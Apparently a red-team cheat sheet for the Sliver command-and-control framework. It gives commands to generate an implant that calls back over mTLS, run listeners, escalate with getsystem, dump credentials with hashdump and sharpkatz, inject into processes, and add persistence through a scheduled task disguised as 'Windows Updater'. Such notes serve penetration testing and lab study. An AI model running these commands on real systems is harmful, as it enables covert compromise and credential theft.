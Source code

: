 # Sliver
## Generating Binaries
* Generate an Implant (mtls, http, dns), this will generate a file saved at the location specified generate Generate a sliver binary
```
generate --mtls 192.168.0.21 --save ./file.exe --os Windows
```
* Start a listener
	* http Start an HTTP listener
	* https Start an HTTPS listener
	* dns Start a DNS listener
	* mtls Start an mTLS listener
* `jobs` shows the listeners
## Beacons
* periodically checks in with the server
	* used when trying to not be as noisy as a session
* kill all beacons with `beacons -k`
* to move from a beacon to a session, use the beacon and then use the command `interactive`

## Sessions
* essentially a shell
* If you land on a local-admin account use the `getsystem` to get a session
* `background` can background a session
* `hashdump` command from the armory pulls the local creds
* to kill a session run `session -k` followed by the session id

## The Armory
* Install all of the armory tools with `armory install all`
* if it starts with "sa" gets info on box
*  Sharpersit
```
sharpersist -- -t schtask -c "C:\Windows\Tasks\malwarefile.exe" -n "Windows Updater" -m add
```
* breaking down the command
	* -- sends arguments to program you are running instead of sliver
	* -t is type of persistence
	* -c is the type of command you want to run
	* -n is the name
	* -m updater

## Other Sliver Notes
* execute assembly
	* will take compiled program on your laptop and inject
* `sharpkatz` is mimikatz, should already be loaded in
* `secinject` section mapping process injection